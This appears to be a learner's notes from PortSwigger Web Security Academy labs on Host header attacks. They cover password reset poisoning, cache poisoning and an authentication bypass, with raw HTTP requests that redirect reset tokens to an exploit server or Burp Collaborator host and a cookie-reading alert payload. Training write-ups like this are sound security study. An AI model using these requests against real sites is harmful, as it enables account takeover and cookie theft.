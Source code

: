 ## Lab - 1: Basic password reset poisoning (A)

- This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.

### how forgot password works in this lab ?

- first test with own account `wiener`
- enter name at forgot password page will make a post request

```
POST /forgot-password HTTP/1.1
Host: 0a2e00ee047f2fdbc0bd31ff00010045.web-security-academy.net
...
csrf=TmWD6yKuj2ZaYbUZkL6sH3f6jom3mvU3&username=wiener
```

- Then `Please check your email for a reset password link.`
- In email box, the following link with token is received.

```
https://0a2e00ee047f2fdbc0bd31ff00010045.web-security-academy.net/forgot-password?temp-forgot-password-token=WLiNjn9NG1CUePEojyt8OtuiaCr3clzi
```

If follow the link, reset password page is received. Then POST request to change the password.

```
POST /forgot-password?temp-forgot-password-token=Hg1GwkdzYSEpDG5FDG5M3gNMULH0vGPS HTTP/1.1
Host: 0a2e00ee047f2fdbc0bd31ff00010045.web-security-academy.net
...

csrf=9FlVx2UgbGDnst1PfLnKjyNdNp2h9wPi&temp-forgot-password-token=Hg1GwkdzYSEpDG5FDG5M3gNMULH0vGPS&new-password-1=peter&new-password-2=peter
```

### How to exploit other user

- test the Host header for POST request with other Hosts

```
POST /forgot-password HTTP/1.1
Host: www.test.com
...
csrf=TmWD6yKuj2ZaYbUZkL6sH3f6jom3mvU3&username=wiener
```

- Email still received with the following link

```
https://www.test.com/forgot-password?temp-forgot-password-token=hZ2261K8u025FraGlCRDl2Gs7RRFMjd0
```

- change the Host header to exploit server and change the user name to other user

```
POST /forgot-password HTTP/1.1
Host: exploit-0a47002904c32fb3c00831f6017b006e.web-security-academy.net/
...
csrf=SOcfxkHQ6D47ls6UbKS5xRvORlFvvlfm&username=carlos
```

- Then look at the exploit server log and found a GET request with token.
- use that token to get the change password page for other user

```
https://0a2e00ee047f2fdbc0bd31ff00010045.web-security-academy.net/forgot-password?temp-forgot-password-token=<token-from-log>
```

---

## Lab - 2: Password reset poisoning via middleware (P)

- This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.

```
POST /forgot-password HTTP/1.1
X-Forwarded-Host: l5r2vxr3alvuvijrao2ocl83puvkj9.burpcollaborator.net
Host: 0a64005403af9d9ac08f879e001900f4.web-security-academy.net
...
username=carlos
```

---

## Lab - 3: Password reset poisoning via dangling markup (E)

> plan after XSS

---

## Lab - 4: Web cache poisoning via ambiguous requests

- This lab is vulnerable to web cache poisoning due to discrepancies in how the cache and the back-end application handle ambiguous requests. An unsuspecting user regularly visits the site's home page. To solve the lab, poison the cache so the home page executes alert(document.cookie) in the victim's browser.

- add second Host header with exploit server and see where it is reflected
- in exploit server File path: /resources/js/tracking.js
- in exploit server Body : alert(document.cookie)

---

## Lab 5 : Host header authentication bypass (A)

- This lab makes an assumption about the privilege level of the user based on the HTTP Host header. To solve the lab, access the admin panel and delete Carlos's account.

- admin route can be found at `/admin`

```
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
```

---

## Lab - 6: Routing-based SSRF (P)

- This lab is vulnerable to routing-based SSRF via the Host header. You can exploit this to access an insecure intranet admin panel located on an internal IP address. To solve the lab, access the internal admin panel located in the 192.168.0.0/24 range, then delete Carlos.
